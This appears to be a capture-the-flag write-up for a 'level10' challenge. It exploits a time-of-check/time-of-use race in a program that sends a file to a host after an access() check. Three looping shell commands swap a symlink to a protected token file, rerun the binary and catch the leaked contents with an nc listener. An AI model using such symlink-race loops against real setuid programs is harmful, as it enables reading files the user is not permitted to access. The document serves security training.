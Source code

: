 # useful links

http://manpagesfr.free.fr/man/man2/access.2.html

# cmd
* ``ls``
    * 2 objs : 1 binary level10 + 1 file token
* ``./level10``
    ```
	./level10 file host
	 sends file to host if you have access to it
	 ```

 - run the program with a file
 	- `./level10 file 0.0.0.0`
 	- `nc -l 6969` : start listening at port 6969

		```
		.*( )*.
		contents-of-the-file
		```
 - open 3 terminals and run folowing commands at the same time
	- `while true ; do echo "not this file" > file; chmod 777 file; ln -s -f token file; rm file; done`

	- `while true; do ./level10 file 0.0.0.0; done`

	- `while true; do nc -l 6969; done`